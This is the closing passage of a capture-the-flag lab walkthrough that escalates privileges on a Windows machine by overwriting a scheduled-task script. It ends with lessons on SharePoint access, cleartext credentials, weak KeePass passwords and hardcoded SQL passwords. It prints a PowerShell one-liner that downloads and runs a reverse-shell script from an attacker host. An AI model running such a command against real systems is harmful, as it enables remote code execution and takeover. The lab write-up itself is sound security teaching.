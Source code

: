 ```text
echo "iex(new-object net.webclient).downloadstring('http://10.10.14.45:5555/shell-2.ps1')" > SPBestWarmUp.ps1
```

Wait until the scheduled task is run. We get a shell!

![](https://miro.medium.com/max/901/1*5VuG4fsW-3DcYD31oS0LBA.png)

We can view the scheduled tasks using the following command.

![](https://miro.medium.com/max/1023/1*CNNcK2VOqUtfSLuGUUM2MQ.png)

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/733/1*CQ16DjQEFO-h94xSRQdojg.png)

## Lessons Learned <a id="712a"></a>

To gain an initial foothold on the box we exploited four vulnerabilities.

1. Insecure SharePoint permissions. An anonymous user was allowed to access SharePoint content. We used that to our advantage to enumerate site pages and documents on SharePoint. The administrator should have secured/restricted external anonymous access, especially when it is a public facing website.
2. Cleartext FTP credentials. After enumerating the content saved on SharePoint, we found a document that contains an FTP password and a site page that contains the username that corresponded to the password. We then used these credentials to log into the FTP server. Sensitive information should not be stored in cleartext and permission restrictions should be put in place that prevent an unauthorized user from accessing files that contain sensitive information.
3. Weak authentication credentials. After logging into the FTP server, we found a KeePass database that was protected with a weak password. Clearly, the user is security-aware and therefore is using a KeePass database to store his passwords. However, the password to the database was not strong enough and therefore we were able to crack it in a matter of seconds and gain access to all the other passwords that the user had stored in the database. The user should have used a strong password that is difficult to crack.
4. Hardcoded password in an executable. After cracking the password for the KeePass database, we found SMB credentials that allowed us to log into one the shares. There, we found a custom executable file that contained a hardcoded SQL system administrator \(SA\) password. Using these credentials, we logged into the SQL database and executed system commands to gain initial access on the box. It’s considered insecure practice to store passwords in applications. If it is absolutely necessary, there are several ways you can obscure these passwords and make it harder for an attacker to discover the passwords. However, with enough skill, time and motive, the attacker will be able recover the passwords.

To escalate privileges we exploited one vulnerability.

1. Security misconfiguration. There is a scheduled task that runs a user owned file with administrator privileges. Since we owned the file, we simply changed the content of the file to send a reverse shell back to our attack machine. To avoid this vulnerability, the scheduled task should have been run with user privileges as apposed to administrator privileges. Or, restrictions should have been put on the script that only allow an administrator to change the file.

